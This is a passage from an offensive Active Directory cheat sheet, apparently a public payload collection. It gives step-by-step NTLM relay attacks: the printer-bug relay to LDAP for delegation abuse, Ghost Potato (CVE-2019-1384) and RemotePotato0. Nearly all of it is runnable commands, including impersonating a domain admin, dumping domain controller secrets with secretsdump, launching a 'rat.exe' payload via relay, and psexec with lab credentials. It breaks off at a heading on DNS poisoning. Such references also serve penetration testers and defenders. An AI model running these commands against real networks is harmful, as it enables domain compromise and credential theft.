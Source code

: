 
- Using any AD account, connect over SMB to the victim server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.
    ```powershell
    # create a new machine account
    TERM1> ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access -smb2support 
    TERM2> python printerbug.py relaytest.local/testuser@second-dc-server 10.0.2.6
    TERM1> getST.py -spn host/second-dc-server.local 'relaytest.local/MACHINE$:PASSWORD' -impersonate DOMAIN_ADMIN_USER_NAME

    # connect using the ticket
    export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache
    secretsdump.py -k -no-pass second-dc-server.local -just-dc
    ```

#### Ghost Potato - CVE-2019-1384

Requirements:
* User must be a member of the local Administrators group
* User must be a member of the Backup Operators group
* Token must be elevated

Using a modified version of ntlmrelayx : https://shenaniganslabs.io/files/impacket-ghostpotato.zip

```powershell
ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
```

#### RemotePotato0 DCOM DCE RPC relay 

> It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine

Requirements:
- a shell in session 0 (e.g. WinRm shell or SSH shell)
- a privileged user is logged on in the session 1 (e.g. a Domain Admin user)

```powershell
# https://github.com/antonioCoco/RemotePotato0/
Terminal> sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 & # Can be omitted for Windows Server <= 2016
Terminal> sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user winrm_user_1
Session0> RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2
Terminal> psexec.py 'LAB/winrm_user_1:Password123!@192.168.83.135'
```


#### DNS Poisonning - Relay delegation with mitm6

Requirements: 
- IPv6 enabled (Windows prefers IPV6 over IPv4)
- LDAP over TLS (LDAPS)
